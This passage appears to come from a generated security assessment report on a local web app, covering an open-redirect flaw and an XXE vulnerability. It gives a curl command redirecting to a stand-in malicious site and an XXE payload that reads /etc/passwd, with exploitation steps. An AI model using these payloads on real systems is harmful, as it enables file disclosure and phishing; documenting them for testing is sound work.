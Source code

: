 #### Command Examples

```bash
curl -I "http://127.0.0.1:5000//redirect?url=https://malicious-site.com"
```

#### Required Tools

- Web browser
- curl
- Burp Suite

#### Potential Impact

- Phishing attacks against users
- Redirection to malware distribution sites
- Credential theft through fake login pages
- Bypassing security filters that trust the original domain
- Social engineering assistance

---

### XML External Entity (XXE) Processing (High)

**Affected Component:** http://127.0.0.1:5000//api/import (Unknown parameter)

**Description:** An attacker provides XML input containing references to external entities that can access local files, internal systems, or cause denial of service. This can lead to sensitive information disclosure, server-side request forgery, or system crash.

#### Step-by-Step Exploitation

1. Identify XML input point at: http://127.0.0.1:5000//api/import
2. Craft a malicious XML payload with XXE
3. Submit the payload to the vulnerable endpoint
4. Check for data extraction or server responses

#### Example Payloads

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<test>&xxe;</test>
```

#### Code Examples

**XML:**
```xml

<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<test>&xxe;</test>
```

#### Command Examples
